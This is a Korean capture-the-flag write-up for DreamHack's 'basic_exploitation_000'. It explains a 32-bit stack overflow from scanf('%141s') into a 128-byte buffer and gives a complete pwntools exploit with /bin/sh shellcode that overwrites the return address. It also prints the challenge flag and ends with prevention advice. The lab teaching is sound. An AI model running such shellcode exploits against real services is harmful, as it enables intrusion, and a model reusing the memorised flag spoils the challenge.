



# B2 · basic_exploitation_000

### 1. 문제와 취약점

  

원본 코드에서 취약점이 생기는 부분은 버퍼 크기와 `scanf` 입력 제한이 서로 맞지 않는 점입니다.

~~~c
char buf[0x80];

printf("buf = (%p)\n", buf);
scanf("%141s", buf);
~~~

`buf`의 크기는 `0x80 = 128`바이트지만 `%141s`는 공백을 만나기 전까지 최대 141자를 읽습니다. `scanf`는 끝에 널 종료 문자도 추가하므로 버퍼 뒤의 스택 메모리까지 덮을 수 있습니다. 이 입력으로 저장된 프레임 포인터와 반환 주소까지 도달합니다.

이 바이너리는 32비트(i386)입니다. 이 문제의 스택 배치와 페이로드는 다음과 같습니다.

~~~text
buf 시작 + 0x00 ~ 0x7f : buf 128바이트
buf 시작 + 0x80 ~ 0x83 : 저장된 EBP 4바이트
buf 시작 + 0x84 ~ 0x87 : 저장된 반환 주소 4바이트
~~~

### 2. 버퍼 주소를 받고 페이로드를 만든다

프로그램은 `printf("buf = (%p)\n", buf)`로 버퍼 시작 주소를 출력합니다. 풀이 코드는 `recvuntil(b"buf = ")`로 앞부분을 소비하고, 나머지 줄에서 주소를 읽습니다. 아래 코드는 `eval` 대신 16진수 정수 변환을 사용합니다.

  

~~~python
from pwn import *

p = remote("host3.dreamhack.games", 16525)
context.arch = "i386"

p.recvuntil(b"buf = ")
line = p.recvline().strip()
buf = int(line.strip(b"()"), 16)

shellcode = (
    b"\x31\xc0\x50\x68\x6e\x2f\x73\x68"
    b"\x68\x2f\x2f\x62\x69\x89\xe3"
    b"\x31\xc9\x31\xd2\xb0\x08"
    b"\x40\x40\x40\xcd\x80"
)

payload = shellcode + b"A" * (0x80 - len(shellcode))
payload += b"BBBB"   # 저장된 EBP
payload += p32(buf)  # 반환 주소

p.sendline(payload)
p.interactive()
~~~

주소를 파싱한 뒤 페이로드를 만드는 흐름은 다음과 같습니다.

1. 셸코드를 버퍼 맨 앞에 둡니다.
2. `A`를 채워 셸코드와 패딩을 합쳐 정확히 `0x80`바이트로 만듭니다.
3. `BBBB` 네 바이트로 저장된 EBP를 덮습니다.
4. `p32(buf)`로 버퍼 주소를 4바이트로 바꿔 반환 주소 자리에 씁니다.

`scanf("%s")`는 공백 문자를 만나면 입력을 멈춥니다. 따라서 셸코드 안에 공백 바이트가 들어가면 뒤쪽 페이로드가 잘릴 수 있습니다. 이 셸코드는 그 입력 조건에 맞게 구성되어 있습니다.

### 3. 셸코드와 반환 주소가 실행되는 순서

셸코드의 헥스 바이트는 전체를 명령어 하나씩 외우기보다 큰 흐름으로 보면 됩니다.

- `31 c0 ... 50`: 레지스터를 초기화하고 문자열 끝의 널 바이트를 스택에 준비
- `68 ... 68 ...`: 스택에 `//bin/sh` 문자열 구성
- `89 e3`: 문자열이 있는 스택 주소를 `EBX`에 저장
- `31 c9 31 d2`: `ECX`, `EDX`를 0으로 설정
- `b0 08 40 40 40`: `EAX`를 11로 만듦
- `cd 80`: i386 리눅스 시스템 콜 실행

입력 자체가 셸코드를 실행하는 것은 아닙니다. `scanf`가 바이트를 버퍼에 기록한 다음, 함수가 반환할 때 `ret`이 덮어쓴 반환 주소 `buf`를 `EIP`에 넣습니다. CPU가 `buf` 첫 바이트부터 실행합니다. 이 기법은 스택 메모리에서 코드 실행이 허용되는 환경에서 동작합니다.

### 4. 실행 결과와 FLAG

셸이 열리면 `p.interactive()`가 터미널과 원격 연결을 이어 줍니다. 화면에서 `ls`로 파일을 확인하고 `cat flag`로 FLAG를 출력했습니다.

  

~~~text
DH{465dd453b2a25a26a847a93d3695676d}
~~~

위 FLAG를 DreamHack 문제 페이지의 FLAG 입력란에 제출합니다. 포트 번호는 문제 인스턴스마다 달라질 수 있으므로, 실행할 때 현재 발급된 포트를 사용합니다.

### 5. 취약점 예방

입력을 버퍼 크기 안으로 제한해야 합니다. `buf`가 128바이트이므로 `%127s`를 사용하면 널 종료 문자 공간까지 확보할 수 있습니다. 더 명확한 방식은 버퍼 크기를 전달하는 `fgets`입니다.

~~~c
if (fgets(buf, sizeof(buf), stdin) == NULL) {
    return 1;
}
~~~

스택 카나리와 NX 같은 보호 기법도 오버플로 악용을 어렵게 하지만, 근본적인 해결은 입력 길이를 버퍼 크기에 맞게 제한하는 것입니다.
